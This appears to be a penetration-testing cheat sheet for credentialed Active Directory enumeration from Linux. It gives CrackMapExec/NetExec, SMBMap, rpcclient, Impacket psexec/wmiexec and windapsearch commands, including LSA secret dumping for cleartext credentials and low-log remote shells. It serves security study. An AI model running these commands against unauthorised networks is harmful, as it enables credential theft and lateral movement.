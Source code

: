 # Credentialed Enumeration - from Linux 🐧
## Using CrackMapExec (now NetExec)
### Domain User Enumeration
```powershell
sudo crackmapexec smb <Target-IP> -u <username> -p <password> --users
sudo netexec smb <Target-IP> -u <username> -p <password> --users

```
### Domain Group Enumeration
```shell
sudo crackmapexec smb <Target-IP> -u <username> -p <password> --groups
sudo netexec smb <Target-IP> -u <username> -p <password> --groups
```
### Logged On Users
```shell
sudo crackmapexec smb <Target-IP> -u <username> -p <password> --loggedon-users
sudo netexec smb <Target-IP> -u <username> -p <password> --loggedon-users
```
### Share Searching
```shell
sudo crackmapexec smb <Target-IP> -u <username> -p <password> --shares
sudo netexec smb <Target-IP> -u <username> -p <password> --shares
```

### Dumping LSA secrets
Get user's cleartext password by attempt to access Local Security Authority (LSA) secrets, which can contain a variety of different credential materials, such as credentials for service accounts. 
```shell
sudo crackmapexec smb <Target-IP> -u <username> -p <password> --lsa
sudo netexec smb <Target-IP> -u <username> -p <password> --lsa
```

#### Spider_plus
The module spider_plus will dig through each readable share on the host and list all readable files.
```shell
sudo crackmapexec smb <Target-IP> -u <username> -p <password> -M spider_plus --share 'Department Shares'
sudo netexec smb <Target-IP> -u <username> -p <password> -M spider_plus --share 'Department Shares'
```

---

## Using SMBMap
SMBMap is great for enumerating SMB shares from a Linux attack host.
### SMBMap To Check Access
```shell
smbmap -u <username> -p <password> -d Domain.LOCAL -H <Target-IP>
```
### Recursive List Of All Directories
```shell
smbmap -u <username> -p <password> -d Domain.LOCAL -H <Target-IP> -R 'Department Shares' --dir-only
```
---

## Using rpcclient
### unauthenticated enumeration
```shell
rpcclient -U "" -N <Target-IP>
```
### Authenticated enumeration
```shell
rpcclient -U 'DOMAIN\Administrator%password' <Target-IP>
```
In rpc **rid**: beside each user. A [Relative Identifier](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/security-identifiers) (RID) is a unique identifier (represented in hexadecimal format) utilized by Windows to track and identify objects.
### User Enumeration
```shell
> enumdomusers
```
![image](https://github.com/user-attachments/assets/82b57b31-845f-4620-8b38-65395a61bd14)
**Enumeration By RID**
`queryuser RID`
```shell
queryuser 0x1f4
```
Extract Users Descriptions/Comments for extra informations with rpc
[Script.sh](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/blob/main/Automation/Users_Description_Comment_RPC.sh)

### Group Enumeration
```shell
> enumdomgroups
```
![image](https://github.com/user-attachments/assets/e9d41d37-26da-4533-a438-05e8591858ed)
**Get group members**
`querygroupmem RID`
```shell
querygroupmem 0xff0
```

---

## Impacket Toolkit
### psexec.py
```shell
psexec.py Domain.local/User:'Password'@<Target-IP>
impacket-psexec Domain.local/User:'Password'@<Target-IP>
```
### wmiexec.py
utilizes a semi-interactive shell where commands are executed through [Windows Management Instrumentation](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page). It does not drop any files or executables on the target host and generates fewer logs than other modules.
```shell
wmiexec.py Domain.local/User:'Password'@<Target-IP>
impacket-wmiexec Domain.local/User:'Password'@<Target-IP>
```
---

## Using [Windapsearch](https://github.com/ropnop/windapsearch) that utilizing **LDAP** queries
Python script we can use to enumerate users, groups, and computers from a Windows domain by utilizing **LDAP** queries.
### Windapsearch - Domain Admins
``` shell
python3 windapsearch.py --dc-ip <Target-IP> -u User@Domain.local -p <Password> --da
```
### Windapsearch - Privileged Users
``` shell
python3 windapsearch.py --dc-ip <Target-IP> -u User@Domain.local -p <Password> -PU
```

